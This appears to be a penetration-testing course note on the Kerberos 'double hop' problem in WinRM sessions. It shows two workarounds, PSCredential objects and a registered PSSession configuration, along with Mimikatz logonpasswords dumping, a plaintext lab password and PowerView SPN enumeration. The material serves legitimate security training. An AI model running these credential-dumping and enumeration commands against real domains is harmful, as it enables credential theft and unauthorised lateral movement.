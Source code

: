 # Kerberos "Double Hop" Problem

There's an issue known as the "Double Hop" problem that arises when an attacker attempts to use Kerberos authentication across two (or more) hops. The issue concerns how Kerberos tickets are granted for specific resources. Kerberos tickets should not be viewed as passwords. They are signed pieces of data from the KDC that state what resources an account can access. When we perform Kerberos authentication, we get a "ticket" that permits us to access the requested resource (i.e., a single machine). On the contrary, when we use a password to authenticate, that NTLM hash is stored in our session and can be used elsewhere without issue.

The crux of the issue is that when using WinRM to authenticate over two or more connections, the user's password is never cached as part of their login. If we use Mimikatz to look at the session, we'll see that all credentials are blank. As stated previously, when we use Kerberos to establish a remote session, we are not using a password for authentication. When password authentication is used, with PSExec, for example, that NTLM hash is stored in the session, so when we go to access another resource, the machine can pull the hash from memory and authenticate us.

If we authenticate to the remote host via WinRM and then run Mimikatz, we don't see credentials for the `backupadm` user in memory.

```powershell-session
PS C:\htb> PS C:\Users\ben.INLANEFREIGHT> Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm
[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
```

(we don't see him in the dump) but there are processes running in the context of the `backupadm` user, such as `wsmprovhost.exe`

```powershell-session
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
wsmprovhost.exe               1844 Services                   0     85,212 K Unknown         INLANEFREIGHT\backupadm
<SNIP>
```

<figure><img src="../../../../.gitbook/assets/image (7).png" alt=""><figcaption><p>We want to use <code>PowerView</code> to enumerate the domain, which requires communication with the Domain Controller, DC01.</p></figcaption></figure>

When we connect to `DEV01` using a tool such as `evil-winrm`, we connect with network authentication, so our credentials are not stored in memory and, therefore, will not be present on the system to authenticate to other resources on behalf of our user. When we load a tool such as `PowerView` and attempt to query Active Directory, Kerberos has no way of telling the DC that our user can access resources in the domain. This happens because the user's Kerberos TGT (Ticket Granting Ticket) ticket is not sent to the remote session; therefore, the user has no way to prove their identity, and commands will no longer be run in this user's context. In other words, when authenticating to the target host, the user's ticket-granting service (TGS) ticket is sent to the remote service, which allows command execution, but the user's TGT ticket is not sent. When the user attempts to access subsequent resources in the domain, their TGT will not be present in the request, so the remote service will have no way to prove that the authentication attempt is valid, and we will be denied access to the remote service.

We can look at [this post](https://posts.slayerlabs.com/double-hop/) to look for workaround the double hop issue

### Workaround #1: PSCredential Object

We can also connect to the remote host via host A and set up a PSCredential object to pass our credentials again. we import PowerView and then try to run a command.

```shell-session
*Evil-WinRM* PS C:\Users\backupadm\Documents> import-module .\PowerView.ps1
*Evil-WinRM* PS C:\Users\backupadm\Documents> get-domainuser -spn
<ERROR>
```

We can start by checking for cached kerberos tickets with klist command ->

```shell-session
*Evil-WinRM* PS C:\Users\backupadm\Documents> klist
<SNIP>
#0> Client: backupadm @ INLANEFREIGHT.LOCAL
    Server: academy-aen-ms0$ @
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
<SNIP>
```

So now, let's set up a PSCredential object and try again.

```shell-session
*Evil-WinRM* PS C:\Users\backupadm\Documents> $SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\backupadm\Documents>  $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)
```

Now we can try to query the SPN accounts using PowerView and are successful because we passed our credentials along with the command.

```shell-session
*Evil-WinRM* PS C:\Users\backupadm\Documents> get-domainuser -spn -credential $Cred | select samaccountname
<COMMAND WORKS>
```

but if we remove the `-credential` flag we will get an error. If we RDP to the same host, open a CMD prompt, and type `klist`, we'll see that we have the necessary tickets cached to interact directly with the Domain Controller, and we don't need to worry about the double hop problem. This is because our password is stored in memory, so it can be sent along with every request we make.

### Workaround #2: Register PSSession Configuration

If we can't use evil-winrm like if we're on a domain-joined host and can connect remotely to another using WinRM? Or we are working from a Windows attack host and connect to our target via WinRM using the [Enter-PSSession cmdlet](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-7.2)

We can start by first establishing a WinRM session on the remote host

```powershell-session
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL -Credential inlanefreight\backupadm
```

If we check cached creds using klist we have the double hop problem, we can only interact with resources in our current session but cannot access the DC directly using PowerView.

```powershell-session
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
<SNIP>
Cached Tickets: (1)

#0>     Client: backupadm @ INLANEFREIGHT.LOCAL
       Server: HTTP/ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
<SNIP>
```

And we won't be able to interract with DC using PowerView

```powershell-session
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
```

To work arounf this problem we can try registering a new session configuration using the [Register-PSSessionConfiguration](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/register-pssessionconfiguration?view=powershell-7.2) cmdlet.

```powershell-session
PS C:\htb> Register-PSSessionConfiguration -Name backupadmsess -RunAsCredential inlanefreight\backupadm
```

Once this is done, we need to restart the WinRM service by typing `Restart-Service WinRM` in our current PSSession.

After we start the session, we can see that the double hop problem has been eliminated, and if we type `klist`, we'll have the cached tickets necessary to reach the Domain Controller. This works because our local machine will now impersonate the remote machine in the context of the `backupadm` user and all requests from our local machine will be sent directly to the Domain Controller.

```powershell-session
PS C:\htb> Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm -ConfigurationName  backupadmsess
[DEV01]: PS C:\Users\backupadm\Documents> klist

Cached Tickets: (1)

#0>     Client: backupadm @ INLANEFREIGHT.LOCAL
       Server: krbtgt/INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
<SNIP>
```

We can now run tools such as PowerView without having to create a new PSCredential object.

```powershell-session
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname
<SNIP>
```
